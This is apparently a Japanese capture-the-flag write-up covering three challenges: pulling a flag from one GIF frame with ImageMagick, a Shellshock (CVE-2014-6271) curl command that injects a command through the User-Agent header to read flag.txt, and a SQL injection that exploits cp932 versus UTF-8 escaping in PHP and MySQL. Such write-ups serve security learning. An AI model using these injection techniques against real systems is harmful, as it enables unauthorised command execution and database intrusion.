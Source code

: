 gif動画の1コマだけにflagが写るので、手元に落として分解。image magicを使う。

``` sh
$ convert +adjoin 1.gif flag.gif
$ ls
1.gif         flag-107.gif  flag-15.gif  flag-23.gif  flag-31.gif  flag-3.gif   flag-48.gif  flag-56.gif  flag-64.gif  flag-72.gif  flag-80.gif  flag-89.gif  flag-97.gif
flag-0.gif    flag-108.gif  flag-16.gif  flag-24.gif  flag-32.gif  flag-40.gif  flag-49.gif  flag-57.gif  flag-65.gif  flag-73.gif  flag-81.gif  flag-8.gif   flag-98.gif
flag-100.gif  flag-109.gif  flag-17.gif  flag-25.gif  flag-33.gif  flag-41.gif  flag-4.gif   flag-58.gif  flag-66.gif  flag-74.gif  flag-82.gif  flag-90.gif  flag-99.gif
flag-101.gif  flag-10.gif   flag-18.gif  flag-26.gif  flag-34.gif  flag-42.gif  flag-50.gif  flag-59.gif  flag-67.gif  flag-75.gif  flag-83.gif  flag-91.gif  flag-9.gif
flag-102.gif  flag-110.gif  flag-19.gif  flag-27.gif  flag-35.gif  flag-43.gif  flag-51.gif  flag-5.gif   flag-68.gif  flag-76.gif  flag-84.gif  flag-92.gif
flag-103.gif  flag-11.gif   flag-1.gif   flag-28.gif  flag-36.gif  flag-44.gif  flag-52.gif  flag-60.gif  flag-69.gif  flag-77.gif  flag-85.gif  flag-93.gif
flag-104.gif  flag-12.gif   flag-20.gif  flag-29.gif  flag-37.gif  flag-45.gif  flag-53.gif  flag-61.gif  flag-6.gif   flag-78.gif  flag-86.gif  flag-94.gif
flag-105.gif  flag-13.gif   flag-21.gif  flag-2.gif   flag-38.gif  flag-46.gif  flag-54.gif  flag-62.gif  flag-70.gif  flag-79.gif  flag-87.gif  flag-95.gif
flag-106.gif  flag-14.gif   flag-22.gif  flag-30.gif  flag-39.gif  flag-47.gif  flag-55.gif  flag-63.gif  flag-71.gif  flag-7.gif   flag-88.gif  flag-96.gif
```

## 192  超文書転送術    Network Tools

``` plain
GNU bash, version 4.1.2(1)-release (x86_64-redhat-linux-gnu)
```

というヒントが出た。shellshock(`CVE-2014-6271`)を試してみると、成功する。

``` sh
$ curl 'http://210.146.64.37:60888/exec' -H 'User-Agent: () { :;}; /bin/cat flag.txt' --data 'cmd=ps&option='
```

`flag={Update bash to the latest version!}`

## 194  超文書転送術    YamaToDo

まず、

``` php
$ie = (isset($_GET['ie']) === true) ? preg_replace('/[^a-z0-9]/', '', strtolower((string)$_GET['ie'])) : mb_internal_encoding();
$ie = ($ie !== 'sjis') ? $ie : die('sjis? so sweeeeeeeeeet');
mysqli_query($link, sprintf('set names %s', $ie));
```

というのが気になるので、これを調べる。
phpとdbのencodingの認識の差を用いた脆弱性があることが分かる。
例えば、`char s[3] = { 0x95, '\\', '\'' };`というbyte列が、utf8では`謎の文字` `\` `'`と解釈されるが、sjisあるいはcp932では`表` `'`と解釈される。utf8としてquoteを行うと`謎の文字` `\` `\` `\` `'`となるが、この結果をsjisとして解釈してunquoteすると`表` `\` `'`となる。最後の`'`は生の`'`であるので、injectionが成立する。
`sjis`は弾かれるが`cp932`は弾かれないようになっているので、これを`/?ie=cp932`と指定する。


[^1]: かなり偶然上手くいっただけっぽい。